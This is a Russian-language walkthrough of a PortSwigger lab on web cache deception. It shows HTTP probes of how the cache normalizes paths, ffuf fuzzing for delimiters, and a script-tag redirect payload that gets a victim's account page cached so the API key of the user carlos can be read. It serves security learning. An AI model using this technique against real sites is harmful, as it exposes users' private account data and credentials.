 [Источник](https://t.me/coffee_cube)
## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-normalization-discrepancies/web-cache-deception/lab-wcd-exploiting-cache-server-normalization#)

```
https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
```

Для прохождения лабы нужно найти `API` ключи пользователя `carlos` с помощью [[Web cache deception]]. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

## Notes

Зайдем в личный кабинет. Попробуем посмотреть, какие ресурсы кэширует веб сервер. Нашел запрос к статическому ресурсы, который кэшируется:

```HTTP
GET /resources/js/tracking.js HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Sec-Fetch-Dest: script
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```

Ответ:

```HTTP
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 70

document.write('<img src="/resources/images/tracker.gif?page=post">');
```

Попробую найти примерное правило кэширования. Для этого заменю `tracking.js` на рандомный символы. Если ответ будет кэширован, значит правило кэширует ресурсы по статическому пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Я получил `404`, но ответ был кэшировался. А значит файлы в `/resourses` - кэшируюется. Посмотрю нормализацию пути. Для этого добавлю `/aaa/..%2f` в начало `/aaaa/..%2fresources/js/tracking.js`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ так же кэшировался. Попробую добавить `/aaaa/..%2f` после пути `/resources`: `/resources/aaaa/..%2fjs/tracking.js`.

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ все равно кэшировался. Значит путь преобразовался к нормальному виду до кэширования.

Теперь посмотрю то, как нормализуется путь к динамическим ресурсам. Для этого буду работать с запросом к `/my-account`:

```HTTP
GET /my-account HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить рандомные символы к пути: `/my-account/aaaa`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Значит такой способ не подходит. Попробую добавить `/aaa/..%2f` к началу пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Все еще не то( Хмм... А если наоборот подставить в конец? `/my-account%2f%2e%2e%2aaaa`

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Тоска( Видимо путь на сервере не нормализуется. Попробую добавить `/resourses` к пути динамического ресурса. Посмотрю, какие разделители обрабатывает сервер. Для этого использую `ffuf`. В целом, это можно сделать и в `Burp`, но я хочу так)

```bash
 ffuf -u https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-accountFUZZaaa \
 -w wordlists/webcache_delimeters.txt
```

Вывод:

```bash
%                       [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 91ms]
?                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 165ms]
#                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 171ms]
%23                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 176ms]
/                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]
%2F   3                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
%3F                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
%00                     [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 72ms]
```

В качестве разделителя сервер принимает `%`, `?`, `#`, `/` и `%00`.  Я знаю, что путь к кэшируемы ресурсам нормализуется до кэширования, поэтому путь следующего формата должен кэшироваться `/my-account#%2f..%2fresourses`. Проверю это:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3866

...

```

Сработало. Теперь нужно скрафтить пейлоад. Для пейлоада буду использовать URL `https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned`. В качестве файла с нагрузкой использую `HTML`:

```XML
<script>document.location="https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned"</script>
```

![pic](../images/Pasted image 20250222195110.png)

Это не сработало. А почему? Попробую закодировать символы - это не помогло...

Прошел час. Была выпита одна чашка кофе. Я решил попробовать написать `html` полностью. И о чудо, оно сработало...

![../images/Pasted image 20250222212036.png]

Долгожданный `API-key`:

![[Pasted image 20250222211820.png]]

Мда уж. Иногда стоит взять перерыв. А лаба решена:

![[Pasted image 20250222212135.png]]
